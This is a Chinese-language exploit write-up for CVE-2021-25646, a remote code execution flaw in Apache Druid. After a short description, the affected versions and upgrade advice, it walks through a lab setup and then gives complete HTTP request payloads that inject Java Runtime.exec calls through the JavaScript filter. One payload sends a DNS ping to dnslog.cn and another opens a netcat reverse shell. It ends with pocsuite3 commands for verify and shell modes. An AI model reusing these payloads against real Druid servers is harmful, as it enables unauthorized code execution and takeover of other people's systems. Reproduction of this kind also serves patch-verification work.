









# CVE-2021-25646 Apache Druid 远程代码执行漏洞

##  0x00 漏洞描述

Apache Druid 是用Java编写的面向列的开源分布式数据存储，旨在快速获取大量事件数据，并在数据之上提供低延迟查询。Apache Druid包括执行用户提供的JavaScript的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在Druid 0.20.0及更低版本中，经过身份验证的用户发送恶意请求，利用Apache Druid漏洞可以执行任意代码。

## 0x01 影响版本

Apache Druid < 0.20.1

## 0x02 修复建议

1、建议升级至最新版本

## 0x03 环境搭建

1、下载地址：

`https://archive.apache.org/dist/druid/0.20.0/apache-druid-0.20.0-bin.tar.gz`

2、解压并启动服务：

`cd apache-druid-0.20.0/`

`./bin/start-micro-quickstart`

jdk需要使用1.8，非1.8版本的，会提示：

按提示执行`export DRUID_SKIP_JAVA_CHECK=1`或安装jdk1.8，再尝试启动服务`./bin/start-micro-quickstart`

3、启动成功后，服务绑定8888端口

点击 Load data -> Local disk -> Connect data

Base directory: quickstart/tutorial/  

File filter: wikiticker-2015-09-12-sampled.json.gz

点击apply，一直按next到filter

抓取修改新增filter的请求报文，报文头为：

`POST /druid/indexer/v1/sampler?for=filter HTTP/1.1
Host: 192.168.52.128:8888
Content-Length: 1003
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://192.168.52.128:8888
Referer: http://192.168.52.128:8888/unified-console.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close`

## 0x04 漏洞利用

### 漏洞复现

1、浏览器打开http://www.dnslog.cn/，点击“Get SubDomain”按钮，获取subdomain填入以下payload中。

借助dnslog.cn回显，修改抓取的filter页面请求body为：

`{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec('ping subdomain.dnslog.cn')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}`

2、重放请求，在http://www.dnslog.cn/页面点击“Refresh  Record”按钮：

### 反弹shell

1、在本地cmd或powershell设置nc监听

`nc -lvp PORT`

payload中的IP为本地网卡IP，PORT为nc监听的端口：

`{"type": "index", "spec": {"ioConfig": {"type": "index", "inputSource": {"type": "inline", "data": "{\"isRobot\":true,\"channel\":\"#x\",\"timestamp\":\"2021-2-1T14:12:24.050Z\",\"flags\":\"x\",\"isUnpatrolled\":false,\"page\":\"1\",\"diffUrl\":\"https://xxx.com\",\"added\":1,\"comment\":\"Botskapande Indonesien omdirigering\",\"commentLength\":35,\"isNew\":true,\"isMinor\":false,\"delta\":31,\"isAnonymous\":true,\"user\":\"Lsjbot\",\"deltaBucket\":0,\"deleted\":0,\"namespace\":\"Main\"}"}, "inputFormat": {"type": "json", "keepNullColumns": true}}, "dataSchema": {"dataSource": "sample", "timestampSpec": {"column": "timestamp", "format": "iso"}, "dimensionsSpec": {}, "transformSpec": {"transforms": [], "filter": {"type": "javascript", "dimension": "added", "function": "function(value) {java.lang.Runtime.getRuntime().exec(' nc yourlistenIP yourlistenPORT -e /bin/sh')}", "": {"enabled": true}}}}, "type": "index", "tuningConfig": {"type": "index"}}, "samplerConfig": {"numRows": 500, "timeoutMs": 15000}}`

2、重放请求，本地nc监听获取服务器控制：

## 0x05 利用脚本

pocsuite3脚本exp：

`https://github.com/A11an10/poc/blob/main/CVE-2021-25646-poc/apache_druid_cve202125646_poc.py`

### verify模式：

`pocsuite -r .\apache_druid_cve202125646_poc.py -u http://IP:PORT --verify`

### shell模式：

`pocsuite -r .\apache_druid_cve202125646_poc.py -u http://IP:PORT --shell`

